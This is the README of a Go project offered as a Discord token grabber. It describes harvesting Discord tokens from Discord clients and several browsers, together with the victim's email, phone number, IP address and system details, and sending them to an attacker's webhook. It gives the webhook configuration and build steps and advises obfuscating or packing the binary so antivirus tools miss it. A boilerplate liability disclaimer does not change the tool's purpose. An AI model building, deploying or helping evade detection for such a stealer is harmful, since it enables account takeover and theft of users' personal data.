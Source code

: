 # Discord Token Grabber Written in Go !

### Liability Disclaimer ⚠

The use of this software on any device that is not your own is highly discouraged. 
You need to obtain explicit permission from the owner if you intend to use this program in an environment you don't own, 
any illicit installation will likely be prosecuted by the jurisdiction the (ab)use occurs in.

Creators shall not be liable for any indirect, incidental, special, consequential or punitive damages, or any loss of profits
or revenue, whether incurred directly or indirectly, or any loss of data, use, goodwill, or other intangible losses,
resulting from:
- (i) your access to this resource and/or inability to access this resource
- (ii) any conduct or content of any third party referenced by this resource, including without limitation, any defamatory, offensive or illegal conduct or other users or third parties
- (iii) any content obtained from this resource

### Features: ⚙

- Send Informations via discord webhook
- Checks for Discord (Canary, PTB) tokens, Google Chrome, Brave Browser, Yandex Browser and Opera Browser
- Checks whether the token(s) is valid before sending it to avoid disabled tokens
- Check whether or not discord account has nitro
- Get Also: Email, Phone, Account display name, CPU Arch, OS, IP

<img src="./preview.png" alt="preview">

### Usage:

Install Go: https://golang.org/dl

Simply change these variables value the `main.go` file by yours:
```go
const (
	WebhookUrl       = "YOUR_WEBHOOK_URL"
	WebhookAvatarUrl = "YOUR_WEBHOOK_IMG" //Webhook img
	WebhookUsername  = "YOUR_WEBHOOK_NAME" // Webhook name
	Debug = false // For a console output
)
```

Then simply compile the `main.go` file !
```sh
# This command will keep debug info in your exe, and it will be detected by AVs 
# You can avoid this by using specific config flags that I won't provide here ! 
# with the correct config flags + some obfuscation the score on Virus Total is 0 
go build main.go
# By default, go build combines symbol and debug info with binary files. 
# However, you can remove the symbol and debug info with 
go build -ldflags "-s -w"
```
You should probably obfuscate or pack the executable file to avoid being detected by AVs. 
You can check out: https://github.com/burrowers/garble

### Contributing

Since it was my first go program there is things that can be refactored for sure, don't hesitate to let me know 


